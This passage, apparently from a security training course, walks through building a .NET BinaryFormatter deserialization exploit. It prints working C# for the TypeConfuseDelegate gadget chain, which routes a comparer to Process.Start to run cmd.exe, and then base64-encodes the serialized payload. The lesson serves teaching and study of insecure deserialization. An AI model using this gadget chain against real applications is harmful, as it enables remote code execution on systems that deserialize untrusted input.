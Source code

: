 So we know that the use of `BinaryFormatter` to deserialize user input is insecure. With this in mind, let's create a new project in `Visual Studio` and get to work developing an exploit that will work against it.

![image](0vbOjslgp8Tm.png)

Unfortunately, our `ObjectDataProvider` gadget will not work this time. We can attempt to copy the gadget code and add the following lines to `serialize` the object and output the results as a `base64`-encoded string:

```csharp
MemoryStream ms = new MemoryStream();
BinaryFormatter bf = new BinaryFormatter();
bf.Serialize(ms, odp);
Console.WriteLine(Convert.ToBase64String(ms.ToArray()));

```

However, running this code will result in an exception being thrown because `ObjectDataProvider` is not marked as a serializable class.

![image](tvzsiRVyzFPa.png)

Instead of tackling the exception, let's just put the `TypeConfuseDelegate` gadget we discussed in the previous section to use!

```csharp
// TypeConfuseDelegate gadget
Delegate stringCompare = new Comparison<string>(string.Compare);
Comparison<string> multicastDelegate = (Comparison<string>)MulticastDelegate.Combine(stringCompare, stringCompare);
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);

FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
object[] invoke_list = multicastDelegate.GetInvocationList();
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);

SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");

// Serialize with BinaryFormatter (to base64 string)
MemoryStream ms = new MemoryStream();
BinaryFormatter bf = new BinaryFormatter();
bf.Serialize(ms, sortedSet);
Console.WriteLine(Convert.ToBase64String(ms.ToArray()));

```

This time, when we run the program we see the calculator spawn and a `base64`-encoded string written to the console. This is the `SortedSet` which we serialized with `BinaryFormatter`.

![image](rZlViKUcO84k.png)
